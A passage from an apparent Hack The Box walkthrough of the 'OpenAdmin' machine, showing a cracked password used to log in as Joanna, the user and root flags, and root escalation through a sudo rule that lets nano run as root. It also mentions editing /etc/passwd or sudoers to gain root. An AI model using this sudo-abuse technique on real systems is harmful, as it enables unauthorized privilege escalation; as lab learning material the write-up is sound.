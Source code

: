 
and we found the password: "bloodninjas". This enabled us log in as Joanna and gave us the user flag for this box

```
joanna@openadmin:~$ ls
user.txt
joanna@openadmin:~$ cat user.txt 
c9b2cf07d40807e62af62660f0c81b5f
```

# 0x3 getting the root.txt

This was acctually easier than getting the user, once you are logged in with joanna do:
```
joanna@openadmin:~$ sudo -l                                                             
Matching Defaults entries for joanna on openadmin:                                           
    env_reset, mail_badpass,                                                                 
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin 
                                                                                             
User joanna may run the following commands on openadmin:                                           
    (ALL) NOPASSWD: /bin/nano /opt/priv
```

you can open the /opt/priv with nano as root without getting prompted for a password, once you open nano on that file  
you can instruct nano to read the /root/root.txt, which since it runs as root it will do without complains.  

```
2f907ed450b361b2c2bf4e8795d5b561
```

And that is it, instead of opening the root.txt you could also edit the /etc/passwd or the sudoers file to actually become a root user.  
At this point we have owned the box.  
This was my first Box on HTB and it won't be the last!



